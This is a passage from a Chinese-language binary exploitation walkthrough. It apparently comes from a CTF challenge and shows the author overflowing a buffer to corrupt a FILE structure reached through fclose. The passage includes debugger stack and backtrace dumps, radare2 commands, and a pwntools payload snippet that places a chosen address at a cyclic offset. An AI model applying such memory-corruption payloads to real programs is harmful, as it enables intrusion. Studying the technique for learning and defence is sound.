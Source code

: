 ```
00:0000| esp  0xffe59e50 --&gt; 0xf771bac0 (_IO_2_1_stdout_) &lt;-- 0xfbad2887
01:0004|      0xffe59e54 --&gt; 0xf771b000 &lt;-- 0x1a9da8
02:0008|      0xffe59e58 &lt;-- 0x0
03:000c|      0xffe59e5c &lt;-- 0x0
04:0010|      0xffe59e60 --&gt; 0xffe59fa8 &lt;-- 'saactaacuaacvaa...'
05:0014|      0xffe59e64 --&gt; 0xf7747500 &lt;-- pop    edx
06:0018|      0xffe59e68 --&gt; 0xf771c898 &lt;-- 0x0
07:001c|      0xffe59e6c --&gt; 0xf771b000 &lt;-- 0x1a9da8
[----------------------BACKTRACE-----------------------]
&gt;  f 0 f75d4386 fclose+22
   f 1  804890f read_file+231
   f 2 63616174
   f 3 63616175
   f 4 63616176
   f 5 63616177
   f 6 63616178
   f 7 63616179
   f 8 6461617a
   f 9 64616162
   f 10 64616163
Program received signal SIGSEGV
```



在这里，我们看到因为 esi 是循环字符串 paac 的一部分，从而不能取消引用esi + 0x46，所以才发生了崩溃。我们还不确定这在文件结构中意味着什么，所以来看看如果将 paac 设置为任意的有效地址是否可以绕过这个问题。首先，让我们将 esi 值设置为我们的文件名值。



```
$ r2 readfile 
[0x08048640]&gt; aaa
[0x08048640]&gt; s obj.name
[0x0804a0a0]&gt;
```



在脚本中更新 paac (win_2.py 在 Github) 偏移量的值。



```
data = 'a' * cyclic_find('paac')
data += p32(0x804a0a0) # Global address for obj.name
data += 'b' * (1000 - len(data))
write_file(filename, data)
```



然后出现了下面这样的崩溃问题。



```
[----------------------REGISTERS-----------------------]
...
*EDI  0x41415241 ('ARAA')
...
[-------------------------CODE-------------------------]
 =&gt; 0xf76a9d40 &lt;fclose+64&gt;     cmp    ebp, dword ptr [edi + 8]
    0xf76a9d43 &lt;fclose+67&gt;     je     0xf76a9d69          &lt;0xf76a9d69; fclose+105&gt;
```
